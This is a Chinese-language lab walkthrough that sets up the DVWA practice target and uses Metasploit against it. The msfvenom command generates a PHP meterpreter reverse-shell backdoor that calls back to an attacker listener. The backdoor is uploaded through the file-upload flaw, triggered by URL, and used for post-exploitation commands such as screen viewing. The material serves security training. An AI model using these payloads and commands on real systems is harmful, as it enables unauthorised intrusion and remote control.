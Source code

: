 # 一、 环境准备

### 1 DVWA靶场

   DVWA下载：https://codeload.github.com/ethicalhack3r/DVWA/zip/master

注意：配置DVWA环境 准备PHP7.0以上，和 Nginx环境 
1 配置数据库密码  配置 config/config.inc.php.dist 文件（注意后门的 .dist要通过重命名删掉）
2 使用浏览器访问 http://192.168.70.130:8080/setup.php
3 红字问题解决
4 缺少**key**  直接替换下面2句  或者 访问https://www.google.com/recaptcha/admin/create

```
$_DVWA[ 'recaptcha_public_key' ] = '6LdJJlUUAAAAAH1Q6cTpZRQ2Ah8VpyzhnffD0mBb';
$_DVWA[ 'recaptcha_private_key' ] = '6LdJJlUUAAAAAM2a3HrgzLczqdYp4g05EqDs-W4K';
```

5 allow_url_include: Disabled  提示没开启
找到php目录里的php.ini **allow_url_include**  将后面参数OFF 改成**On** 修改完成重启Nginx生效

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# 二、Metasploit配置监控及攻击载荷

### 1 配置监控-使用handler模块

`use exploit/multi/handler`

<img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/a2529fe010ac46108a0413b8153c08b0.png" alt="img" style="zoom:200%;" />

### 2 配置攻击载荷设置payload

####    第一步设置payload

 `set payload php/meterpreter/reverse_tcp`

####    第二步设置 lhost 和 lport

 `set lhost 192.168.70.3`

`set lport  4444`端口

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/ad204b7bb1bc4c709f4d6948d4ef219a.png) 

### 3 生成php后门执行攻击获得meterpreter

#### 3.1生成PHP后门

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.70.3 lport=4444 R>shell.php`

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1fa4967afb3f487f84926004d4ddc591.png)

#### 3.2 传播

使用Python简单的web服务

`python3 -m http.server 80`

或

`python -m SimpleHTTPServer 80`

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/6604546c76d7471e9f332e81daf6c570.png)

靶机将shell.php使用**文件上传**的方式上传

然后访问

`192.168.70.130:8084/hackable/uploads/shell.php`

触发运行。

#### 3.3 执行攻击获得meterpreter

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1003035b32a343488a282bddec48a62b.png)

`run` 或者`exploit`

获取到meterpreter 我们就可以做渗透操作了



##### 观看屏幕

`run vnc`

##### 查看当前账号

`getuid`